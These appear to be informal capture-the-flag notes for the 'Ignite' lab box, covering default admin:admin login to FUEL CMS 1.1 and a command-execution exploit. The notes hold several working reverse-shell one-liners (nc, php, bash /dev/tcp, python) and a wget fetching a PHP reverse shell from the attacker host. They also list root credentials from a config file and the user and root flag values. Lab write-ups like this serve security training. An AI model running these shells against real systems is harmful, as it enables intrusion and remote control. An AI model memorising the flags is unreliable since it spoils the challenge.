 ### Ignite ###

export IP=10.10.12.237


the default page is im guessing id the installation guide of FUEL CMS, and the version also seems to be just 1.1 so mayb searchsploit have something....

secondly, it included a /fuel login page...

the mechanism is a bit tricky....it uses a url for POST request the arguments that has a hash which is included in one of those arguments..if that makes sense...maybe a python script for all this...


nevermind: admin:admin worked xD


Searchsploit gave me a command execution vuln:

nc -e /bin/sh 10.11.18.102 6000

That didn't work...

php -r '$sock=fsockopen("10.11.18.102",6000);exec("/bin/sh -i <&3 >&3 2>&3");'

didn't work..

bash -i >& /dev/tcp/10.11.18.102/6000 0>&1


Meanwhile got some files that i can access....mikey179...found this in composer,json..so mickey is a user


python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.18.102",6000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'



Since i am in the home directory of the web server...and i have remote code execution...

i can wget my rev_Shell and load it into the browser to get the reverse shell...


wget http://10.11.18.102:8000/reverse-shell-php.php 

And got a reverse shell...

# User.txt:
6470e394cbf6dab6a91682cc8585059b


Back on the home page it was listed that for db installation it has to enlist the username and password for the root user....in configuration.php...root:mememe

# Root.txt:
b9bbcb33e11b80be759c4e844862482d